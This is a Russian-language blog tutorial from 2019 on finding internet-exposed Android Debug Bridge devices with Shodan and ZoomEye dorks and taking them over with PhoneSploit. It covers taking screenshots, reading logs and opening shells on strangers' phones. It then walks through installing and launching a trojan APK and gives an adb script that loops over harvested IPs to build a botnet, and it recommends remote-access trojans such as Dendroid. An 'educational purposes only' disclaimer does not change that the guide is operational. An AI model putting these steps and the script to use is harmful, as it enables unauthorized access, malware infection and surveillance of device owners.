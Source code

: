 ```yaml
---
description: >-
  2019-11-18 @N3M351DA ( @in51d3 ) с использованием информации от @S33Y8u1nH311
  для @yolenloop и публикации в @DC7495
---
```


# Пошаговое руководство к поиску и эксплуатации Android-устройств

### Пошаговое руководство к поиску и эксплуатации Android-устройств \(либо отладочных хостов\) использующих Android Debug Bridge.

_Весь материал представлен исключительно в образовательных целях и не является призывом к действию!_

**Android Debug Bridge** \(adb\) – это утилита командной строки, работающей на хосте отладки \(устройство, на котором отлаживается ПО для Android\). ADB позволяет обмениваться данными с запущенным эмулятором Android или реальным подключенным \(через USB, сеть Wi-Fi\) устройством Android \(планшет, телефон\).

**ADB** работает по технологии клиент-сервер, и включает в себя 3 компонента:

• Клиент, который работает на хосте отладки.

• Сервер, который запущен как фоновый процесс на хосте разработки.

• Демон \(служба\), которая запущена как фоновый процесс на каждом экземпляре эмулятора или подключенном Android-устройстве.

Дорки для поиска таких устройств в shodan.io \(на 14.11.19 – 11583 хоста\):

* product:”Android Debug Bridge”
* Android Debug Bridge -country:RU
* port:”5555″ android

![](http://dc7495.org/aybbtu/uploads/2019/11/word-image.png)

Дорк для поиска в zoomeye.org \(на 14.11.19 – 36983 хоста\)

* service:”adb”

![](http://dc7495.org/aybbtu/uploads/2019/11/word-image-1.png)

Для первичного подключения к хостам будем использовать универсальный тулкит PhoneSploit \([https://github.com/n3m351d4/PhoneSploit](https://github.com/n3m351d4/PhoneSploit)\).

![](http://dc7495.org/aybbtu/uploads/2019/11/word-image-2.png)

**Установка на Windows**

git clone https://github.com/Zucccs/PhoneSploit

extract adb.rar to the phonesploit directory

cd PhoneSploit

pip install colorama

python2 main.py

**Установка на Linux**

git clone https://github.com/Zucccs/PhoneSploit

cd PhoneSploit

pip install colorama

python2 main\_linux.py

**Функционал PhoneSploit:**

1. Показать подключенные устройства
2. Отключить все устройства
3. Подключиться к новому устройству \(по IP адресу\)
4. Подключиться к командной строке устройства
5. Установить приложение на устройство
6. Сделать запись экрана устройства
7. Сделать скриншот устройства
8. Перезапустить сервер
9. Скачать данные из файловой системы устройства себе на ПК
10. Выключить устройство
11. Удалить приложение
12. Показать лог устройства в реальном времени
13. Скопировать системную информацию
14. Получить список всех приложений, установленных на устройстве
15. Запустить приложение
16. Проброс портов
17. Просмотреть файл конфигурации Wi-fi
18. Посмотреть мак адрес интерфейса wlan0
19. Извлечь .apk файл приложения
20. Посмотреть количество заряда батареи
21. Посмотреть сетевые соединения
22. Включить/выключить Wi-fi
23. Удалить пароль на устройстве
24. Нажать на кнопку \(выполнить действие\). Например: нажать на кнопку звонка, включить камеру.
25. Получить информации о текущем открытом приложении на экране.

**Ход действий:**

* Если вы запускаете скрипт первый раз и у вас не установлен adb, то вводим n, нажимаем Enter, при последующих запусках будет необходимо нажимать Y.

![](http://dc7495.org/aybbtu/uploads/2019/11/word-image-3.png)

* Необходимо найти IP адрес в одном из поисковиков и скормить его скрипту. В последующем, для вызова подключения нового устройства нужно использовать команду 3.

![](http://dc7495.org/aybbtu/uploads/2019/11/word-image-4.png)

* Командой 7 делаем скриншот, вводим директорию, куда его будем сохранять, например: ~/Documents. Загружаем скриншот:

![](http://dc7495.org/aybbtu/uploads/2019/11/word-image-5.png)

Любуемся результатом:

![](http://dc7495.org/aybbtu/uploads/2019/11/word-image-6.png)

* Лог устройства в реальном времени \(пункт 12\)

![](http://dc7495.org/aybbtu/uploads/2019/11/word-image-7.png)

* Установленные приложения \(пункт 14\)

![](http://dc7495.org/aybbtu/uploads/2019/11/word-image-8.png)

* Запись видео экрана \(пункт 6\), работает не всегда точно.

![](http://dc7495.org/aybbtu/uploads/2019/11/word-image-9.png)

* Подключение к командной строке \(пункт 4\), выход из режима производится командой exit.

![](http://dc7495.org/aybbtu/uploads/2019/11/word-image-10.png)

* Пункт 20 – заряд устройства.

![](http://dc7495.org/aybbtu/uploads/2019/11/word-image-11.png)

* 21 – сетевые соединения устройства.

![](http://dc7495.org/aybbtu/uploads/2019/11/word-image-12.png)

Думаю, с прочими командами вам придется разобраться самостоятельно. Перейдем к интересному.

**Заражение устройства трояном.**

Берем скомпилированный файл с разрешением .apk, пишем команду 5.

![](http://dc7495.org/aybbtu/uploads/2019/11/word-image-13.png)

Приложение загружено и установлено. Далее необходимо его запустить.

Командой 15 запускаем приложение. Необходимо указать его название в формате: com.snapchat.android.

![](http://dc7495.org/aybbtu/uploads/2019/11/word-image-14.png)

Делаем скриншот – наше приложение Murmur установилось.

![](http://dc7495.org/aybbtu/uploads/2019/11/word-image-15.png)

**Делаем ботнет.**

Выгружаем список нужных нам хостов.

![](http://dc7495.org/aybbtu/uploads/2019/11/word-image-16.png)

![](http://dc7495.org/aybbtu/uploads/2019/11/word-image-17.png)

Парсим в столбик.

![](http://dc7495.org/aybbtu/uploads/2019/11/word-image-18.png)

Пишем скрипт на основе PhoneSploit. Нам потребуется три кусочка из него:3, 5, 15 и 2.

ip = **raw\_input**

apk\_location = **~/Documents/app-release.apk**

os.system\(“adb connect “+ip+”:5555″\)

os.system\(“adb -s “+ip+” install”+apk\_location\)

os.system\(“adb -s “+ip +” shell monkey -p “+ **com.snapchat.android** +” -v 500″\)

os.system\(“adb disconnect”\)

Загоняем их в цикл перебора адресов из блокнота.

**Где взять .apk?**

Гуглим:

![](http://dc7495.org/aybbtu/uploads/2019/11/word-image-19.png)

Если ничего не приглянулось, смотрим сюда: Remote Access Tool Trojan List – Android \([https://github.com/n3m351d4/Android-RATList](https://github.com/n3m351d4/Android-RATList)\).

Некоторые вещи придется собирать вручную.

![](http://dc7495.org/aybbtu/uploads/2019/11/word-image-20.png)

Мне нравится по функционалу Dendroid \(https://github.com/n3m351d4/DendroidV2\)

* СМС, звонки, лог звонков
* Открытие веб страниц
* Загрузка видео и изображений
* Открытие приложений
* ДОС
* Динамическая смена управляющего сервера

Еще неплох Anubis, но его нигде не достать 🙂

![](http://dc7495.org/aybbtu/uploads/2019/11/word-image-21.png)

**Спасибо за внимание.**

